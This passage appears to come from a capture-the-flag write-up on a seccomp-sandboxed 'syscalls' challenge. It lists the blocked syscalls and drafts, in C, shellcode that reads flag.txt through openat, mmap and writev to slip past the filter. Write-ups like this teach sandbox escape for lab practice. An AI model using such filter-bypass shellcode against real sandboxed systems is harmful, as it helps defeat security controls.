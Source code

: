 ```bash
 0024: 0x06 0x00 0x00 0x00000000  return KILL
```

This output shows what the filter is doing. Certain syscalls are forbidden such as `open` or `write` and others such as `writev` are allowed under certain conditions.

Forbidden syscalls:
- `read`
- `write`
- `open`
- `pread64`
- `readv`
- `sendfile`
- `fork`
- `execve`
- `splice`
- `preadv`
- `pwritev`
- `execveat`

Allowed under special conditions:
- `writev`

So the task is to create a compliant shellcode that reads `flag.txt` and outputs it in some way.

## Game Plan

At this point it's still unclear (to me) whether `writev` can actually be used. However I can't seem to figure another way to write to `STDOUT` (there most probably is) so I'll just assume it will work for now. So that's the game plan:

- `openat` to open the `flag.txt` file
- `mmap` to map the file to memory
- `writev` to write its content to STDOUT

## The Hard Way

> Disclaimer: While this was my initial approach, it is by no means the most straightforward. A simpler pwntools solution can be found [here](#the-easy-way).

Since I do not know very much about writing assembly code by hand I will start with drafting what I want to accomplish in C first. The idea is to have a working C program and then translate it to assembly.  From there it should be trivial to obtain the shellcode, feed it to the `syscalls` binary and retrieve the flag.

So the first draft looks something like this:
```c		
int main() {
    int fd = openat(AT_FDCWD, "flag.txt", O_RDONLY);

    void *addr = mmap(NULL, 128, PROT_READ, MAP_PRIVATE, fd, 0);
    if (addr == MAP_FAILED) {
        close(fd);
        return 1;
    }

    struct iovec iov = { addr, 128 };
    ssize_t bytes_written = writev(STDOUT_FILENO, &iov, 1);
    if (bytes_written == -1) {
        munmap(addr, 128);
        close(fd);
        return 1;
    }

    munmap(addr, 128);
    close(fd);
```